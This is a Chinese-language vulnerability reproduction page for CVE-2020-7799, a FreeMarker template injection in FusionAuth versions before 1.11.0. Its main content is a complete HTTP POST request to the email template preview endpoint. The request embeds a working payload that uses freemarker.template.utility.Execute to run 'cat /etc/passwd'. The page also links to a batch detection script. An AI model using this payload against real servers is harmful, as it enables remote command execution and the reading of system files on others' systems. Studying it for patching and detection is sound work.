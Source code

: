 （CVE-2020-7799） Apache FreeMarker模板FusionAuth远程代码执行漏洞
=================================================================

一、漏洞简介
------------

在FusionAuth
1.11.0版本之前的中发现了一个问题。经过身份验证的用户允许编辑电子邮件模板（主页-\>设置-\>电子邮件模板）或主题（主页-\>设置-\>主题），可利用`freemarker.template.utility.Execute`执行任意命令

二、漏洞影响
------------

三、复现过程
------------

post提交

    POST /ajax/email/template/preview HTTP/1.1
    Host: www.0-sec.org:9011
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 796
    DNT: 1
    Connection: close
    Referer: http://192.168.0.3:9011/admin/email/template/edit/2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b
    Cookie: JSESSIONID=FA9DB3CBABA6B37E5336AE4B96001807; 

    primeCSRFToken=kRC228UjAA4ohN_E9PW9kz0HpTlxUDCB_HVrDhBUfWU&emailTemplateId=2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b&emailTemplate.name=COPPA%20Notice&emailTemplate.defaultSubject=Notice%20of%20your%20consent&emailTemplate.fromEmail=no-reply%40fusionauth.io&emailTemplate.defaultFromName=FusionAuth&emailTemplate.defaultTextTemplate=You%20recently%20granted%20your%20child%20consent%20in%20our%20system.%20This%20email%20is%20to%20notify%20you%20of%20this%20consent.%20If%20you%20did%20not%20grant%20this%20consent%20or%20wish%20to%20revoke%20this%20consent%2C%20click%20the%20link%20below%3A%0A%0Ahttp%3A%2F%2Fexample.com%2Fconsent%2Fmanage%0A%0A-%20FusionAuth%20Admin&emailTemplate.defaultHtmlTemplate=${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}}

![](./.resource/(CVE-2020-7799)ApacheFreeMarker模板FusionAuth远程代码执行漏洞/media/rId24.png)

### 批量检测脚本

https://github.com/ianxtianxt/CVE-2020-7799/

参考链接
--------

> https://www.anquanke.com/vul/id/1910928
>
> https://cert.360.cn/warning/detail?id=207275e27a6e7ee85a43a6eb5cf5fc69
